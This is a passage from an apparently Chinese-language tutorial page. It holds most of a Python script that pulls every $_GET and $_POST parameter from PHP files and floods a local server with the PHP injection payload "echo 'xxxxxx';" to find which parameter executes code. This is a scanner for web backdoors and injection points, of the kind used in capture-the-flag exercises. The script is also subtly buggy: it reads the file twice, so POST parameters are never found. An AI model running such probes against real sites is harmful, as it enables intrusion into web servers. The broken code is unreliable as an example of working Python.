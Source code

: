 ```py
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:							#打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}														#所有的$_POST
    params = {}														#所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file
    req = session.post(url, data=data, params=params)			#一次性请求所有的GET和POST
    req.close()												# 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:									#如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()												# 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()												# 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:													#flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:															#加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

---

## Python 正则表达式

正则表达式是从左到右来匹配一个字符串的。它能帮助你去检查或匹配出对应的字符串信息。
